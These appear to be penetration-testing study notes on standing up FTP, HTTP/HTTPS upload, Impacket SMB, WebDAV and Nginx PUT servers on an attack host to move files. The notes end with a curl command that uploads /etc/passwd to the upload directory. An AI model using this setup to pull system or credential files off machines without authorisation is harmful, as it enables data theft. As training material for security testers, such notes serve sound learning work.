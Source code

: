 ## FTP Server
We can set up an FTP Server in our attack host 

```shell
sudo pip3 install pyftpdlib
```

```shell-session
sudo python3 -m pyftpdlib --port 21 --write

[I 2022-05-17 10:09:19] concurrency model: async
[I 2022-05-17 10:09:19] masquerade (NAT) address: None
[I 2022-05-17 10:09:19] passive ports: None
[I 2022-05-17 10:09:19] >>> starting FTP server on 0.0.0.0:21, pid=3210 <<<
```

when ftping into the server - log in as user "anonymous", password ""

# Web Server
download
```
python -m http.server
```
 upload
```
sudo python3 -m pip install --user uploadserver
```

```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
create a new directory to host the certificate file that is not under the webserver 


```
mkdir https && cd https
```

```
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

# SMB Server
download
Setting up the SMB server
[smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) from Impacket

first create a /tmp/smbshare and then give it 777
```shell-session
sudo impacket-smbserver -smb2support sharename /tmp/smbshare 

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
`-username` and `-password`


pload
Make ourselves SMB over HTTP with WebDav.WedbDAV
```shell-session
sudo pip3 install wsgidav cheroot
```

```shell-session
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
the smb path will be \\ip.address\\DavWWWRoot
# Nginx
```shell-session
sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```

```shell-session
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

Create file /etc/nginx/sites-available/upload.conf
```shell-session
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

```shell-session
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

Start nginx 
```shell-session
sudo systemctl restart nginx.service
```

If port 80 is already in used, there might be some problems 
all we need to do is to remove nginx default configurations 
```shell-session
sudo rm /etc/nginx/sites-enabled/default
```

Upload File using cURL 
```shell-session
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

